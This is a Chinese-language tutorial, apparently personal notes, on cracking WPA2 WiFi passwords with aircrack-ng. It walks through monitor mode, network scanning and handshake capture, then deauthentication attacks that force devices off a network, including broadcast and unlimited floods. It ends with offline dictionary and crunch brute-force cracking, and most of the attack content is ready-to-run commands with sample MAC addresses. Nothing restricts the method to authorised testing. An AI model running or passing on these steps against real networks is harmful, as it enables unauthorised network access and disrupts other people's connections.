 [Aircrack-ng 官网资料](http://www.aircrack-ng.org/doku.php?id=airmon-ng)

```bash
# airmon-ng 开启监听模式
$ airmon-ng start wlan0

# airodump-ng 扫描周围 WiFi 网络
$ airodump-ng wlan0mon -a

$ bssid=D4:84:09:7B:A5:7A
$ client=84:46:93:D7:97:81
$ ch=6

# airodump-ng 开始抓包
# airodump-ng -c {CH} --bssid {BSSID} -w {要保存握手包的目录} {无线网卡名称}
$ airodump-ng -c $ch --bssid $bssid -w ./25 wlan0mon


# 强制重连
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION下面的地址)} {无线网卡名称}
aireplay-ng -0 10 -a $bssid -c $client wlan0mon
```

## 准备

linux 系统：

- 安装 kali 系统（自带 aircrack-ng 套件）
- 其他的 linux 系统如 ubuntu 要手动安装 aircrack-ng 套件

```bash
sudo apt install aircrack-ng
```

网卡：不是随便的网卡就行，一定要看看网卡芯片支持 aircrack-ng 与否。

- 虚拟机 vm 之类的：要购买外置的 usb 无线网卡，并安装驱动。
  [usb 无线网卡](https://blog.csdn.net/sandalphon4869/article/details/104214781)
  
- 双系统可以使用本机网卡，但要看看支持 aircrack-ng 吗，比如我的 Realtek 8821ce 就不支持。

  【最好的方式，Kali USB Live，即插即用，可本机网卡】


## 原理

破解的原理还是**一个一个试**，之所以要抓握手包，是因为握手包中含有经过加密的密码，我们将握手包抓下来后，可以**在本地跑字典破解**，并且每秒钟可以试几万个密码。

但是如果没有握手包，我们只能手动输密码，那样是很慢的，即使可以用程序来跑，也不能保证路由器没有设置错误次数，有可能会禁止连接，即使没有设置错误次数，但是每次与路由器交互的过程所需要耗费的时间也大于一秒。

aircrack-ng 套件：

核心

- `airmon-ng`：设置网卡的工作模式，
- `airodump-ng`：扫描无线网络抓取数据包
- `aircrack-ng`：可以进行密码的试探，把 cap 数据包转换为 hashcat 文件，用它可以提高十倍以上的破解速度

其他：

- `aireplay-ng`：生成流量和客户端认证

## 监听模式 airmon-ng

先获取 root 权限：

```bash
sudo su
```

### 查看网卡是否支持

```bash
airmon-ng
```

![0.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814074.png)
显示物理设备，接口，驱动，芯片型号。

如果你也安装好了网卡驱动，结果却空空如也，说明你的网卡不支持监听，买个吧。

### 开启监听模式

```bash
airmon-ng start wlan0
```

![1.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814075.png)
记住显示出来的`wlan0mon`

### 查看是否进入监听模式

```bash
iwconfig
```

![2.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814076.png)
可以看到`wlan0mon`的信息：协议、模式、频率

## 扫描网络 airodump-ng

```bash
# -a 过滤掉隐藏bssid的station。反正不知道bssid也没法用。
# --channel <channels>: 默认是2.4G，可设置5G频段来扫5G
airodump-ng wlan0mon -a --channel 1-140
```

![3.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814077.png)

第一个列表：无线网络 AP：

- BSSID: 无线 AP 的硬件地址
- PWR: 信号强度，值是负数，越大表示信号越强
- CH: 无线网络信道
- ENC: 加密方式，我们要破解的是 WPA2
- CIPHER：加密算法。一般，TKIP 与 WPA、CCMP 与 WPA2.
- ESSID: 无线网络的名称

第二个列表：无线网络 AP 中的用户设备：

- BSSID: 无线 AP 的硬件地址
- STATION: 用户设备的硬件地址（mac 地址）
- Probe：无线网络 AP的备注。

按键：

- a: 选择不同显示模式。不用动，就默认模式
- o/p: 开启/关闭**颜色标注**。标准有设备的无线网络AP。
- s: 排序规则。我们选择 **sorting by power level**

### 开始抓包 airodump-ng

```bash
# airodump-ng -c {CH} --bssid {BSSID} -w {包文件路径前缀} {无线网卡名称}
airodump-ng -c 6 --bssid 5C:02:14:A4:38:50 -w /home/kali/Desktop/23 wlan0mon
airodump-ng -c 8 --bssid 50:55:8D:C0:14:5F -w /home/kali/Desktop/cmcc wlan0mon


┌──(root㉿kali)-[/home/kali/Desktop]
└─# ls   
23-01.cap  23-01.csv  23-01.kismet.csv  23-01.kismet.netxml  23-01.log.csv
```

### 强制断开 aireplay-ng（可选）

在抓取期间，如果有设备重新链接到这个 wifi，那么才能获取到握手包。

这条作用就是让已经链接上的设备断开重连。

```bash
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION)} {无线网卡名称}
aireplay-ng -0 5 -a 5C:02:14:A4:38:50 -c 46:96:65:7D:6C:FB wlan0mon

# 省去 -c 就是广播。
aireplay-ng -0 5 -a 50:55:8D:C0:14:5F  wlan0mon

# -0 0: 无限包
aireplay-ng -0 0 -a D4:35:38:BD:4C:99 wlan0mon
```

问题：拿自己wifi实验，都没断开成功……

### 握手成功

![4.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814078.png)
只有当扫描状态后面出现`][ WPA handshake: 22:47:DA:62:2A:F0`后，我们才拿到拿到进行破解的握手包

按 Ctrl-C 结束抓包。

![5.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814079.png)

进到（1）中`{要保存握手包的目录}`下查看握手包，其中"-01.cap"是我们一会儿破解要用到的数据包

## 开始破解密码 aircrack-ng

### 解压字典

如果是 kali 的话，可以使用本地字典：

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

其他的 linux，可以下别的字典：
[github:conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)

### 本地

命令格式：
`aircrack-ng -w {本地的字典文件} {握手包}`

例如：

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/volume/pro/-01.cap
```

![6.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814080.png)

### crunch 在线

- 知道 ESSID（即 WiFi 的名字，如`360Wifi-A00000`）
  8 位密码：随机数字（`-e`表示 Wifi 的 ESSID，`-w -`表示使用 crunch 即时生成的密码本）

```bash
crunch 8 8 0123456789 | aircrack-ng yourCapName.cap -e yourWifiESSID -w -
```

- 知道 BSSID（即 Mac 地址，如`00:00:00:00:00:00`）
  8 位密码：随机数字（`-b`表示 Wifi 的 BSSID，`-w -`表示使用 crunch 即时生成的密码本）

```bash
crunch 8 8 0123456789 | aircrack-ng yourCapName.cap -b yourWifiBSSID -w -
```

## 退出

使用命令：


```
airmon-ng stop wlan0mon
```



---

## 参考

[kali linux 破解 WiFi 教程- 影像声色](https://www.jianshu.com/p/15f5c51143ec)
[kali 破解 wifi 密码-fzga](https://www.cnblogs.com/zgang/p/11562012.html)

[WLAN traffic capture [2\] - Linux - NetGab - The daily networking madness](http://netgab.net/web/2016/12/23/wlan-traffic-capture-2-linux/)
